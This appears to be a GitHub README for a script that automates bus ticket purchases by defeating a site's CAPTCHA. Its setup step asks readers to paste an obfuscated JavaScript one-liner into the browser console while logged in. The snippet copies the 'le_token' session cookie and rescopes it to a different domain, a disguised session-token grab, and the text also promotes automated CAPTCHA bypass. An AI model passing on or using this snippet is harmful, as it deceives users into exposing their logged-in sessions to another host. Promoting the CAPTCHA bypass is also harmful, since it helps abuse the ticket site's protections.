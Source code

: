 # Bus Ticket Automation Script 🚍💨

## What’s This?
Listen up, nerds, gather round. Welcome to the **Bus Ticket Automation Script**, a glorious slap in the face to **Texista’s** joke of a security system. Imagine this: a website still using *text CAPTCHAs* like it’s the Stone Age. "Select a bus"?? Bro, just hand over the ticket already. we're going right through.

## Why Use This?
Because you’re tired of looking at blurry letters and pretending to be a robot just to get a bus ticket. This script is like bringing a nuke to a thumb war. No more guessing blurry words like some government test subject. CAPTCHA security? Forget it. You're here for a ticket, not to prove you're human.


## Features
- **Full Attack Mode:** Go grab a snack while this thing handles all the ticket-grabbing nonsense. 🍕
- **CAPTCHA Terminator:** We don’t mess around. Picking out random letters? Leave that to the 9-to-5 robots.
- **Super Simple Setup:** Seriously, if you can copy and paste, you’re qualified.


# How to Use

1. **Clone the repo:**
	```bash
	git clone https://github.com/tazal3asima/taza_l3asima.git
	```
2. **Jump into the directory:**
	```bash
	cd taza_l3asima
	```

3. **copy this to firefox console after you logged in to bus website then completly quit the browser**
	```js
	(()=>{const[$,$_,$__,$___]=['cook','ment','docu','ie'],_='\x6c\x65\x5f\x74\x6f\x6b\x65\x6e',__=(_=>atob(_))('YnVzLW1lZC4xMzM3Lm1h');eval(`${$__}${$_}.${$}${$___}=\x27${_}=\x27+${$__}${$_}.${$}${$___}.split(\x27;\x27).find(x=>x.trim().startsWith(\x27${_}=\x27)).split(\x27=\x27)[1]+\x27; expires=\x27+new Date(Date.now()+3600000).toUTCString()+\x27; domain=${__}; path=/;\x27`)})();
	```

4. **Run the bad boy 5 minutes before you want to go.**
	```bash
	make
	```
<!-- load in image called meme.jpg -->


# if you get it you get it
![meme](meme.jpg)


